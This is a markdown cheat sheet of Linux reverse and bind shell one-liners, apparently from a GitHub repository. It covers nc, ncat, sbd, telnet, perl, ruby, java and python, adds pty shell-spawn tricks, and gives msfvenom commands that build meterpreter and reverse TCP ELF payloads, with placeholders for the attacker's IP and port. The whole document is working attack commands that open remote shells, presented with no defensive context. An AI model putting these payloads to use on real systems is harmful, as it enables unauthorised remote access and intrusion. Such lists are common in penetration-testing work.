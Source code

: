 # Linux Shells
___
## nc
##### Listener
```bash
nc -nvlp [PORT] -e /bin/bash
```
##### Shell
```bash
nc [IP] [PORT] -e /bin/bash
```
```bash
rm -f /tmp/p; mknod /tmp/p p && nc [IP] [PORT] 0/tmp/p
```

## ncat
##### Listener
```bash
ncat --exec cmd.exe --allow [IP] -vnl [PORT] --ssl
```
##### Shell
```bash
ncat -nv [IP] [PORT]
```

## sdb
##### Listener
```bash
sbd -lp [PORT] -k secret -e /bin/bash
```
##### Shell
```bash
sbd -k secret [IP] [PORT]
```

## telnet
##### Shell
```bash
rm -f /tmp/f; mkfifo /tmp/f
telnet [IP] [PORT] 0</tmp/f | sh >/tmp/f 2>&1
```
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet [IP] [PORT] 0/tmp/p
```
```bash
telnet [IP] [PORT] | /bin/bash | telnet [IP] [PIPED-PORT]
```

## perl
```perl
perl -e 'use Socket;$i=[RT-IP];$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open([IP],[PORT]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[PORT];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(([IP],[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

##### Spawn Shell
```python
python -c 'import os; os.system("/bin/sh")'
```
```python
python -c "import pty;pty.spawn('/bin/bash')"
```


## Metasploit
##### Staged reverse TCP
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > [NAME].elf
```

##### Stageless reverse TCP
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf -o [NAME].elf
```

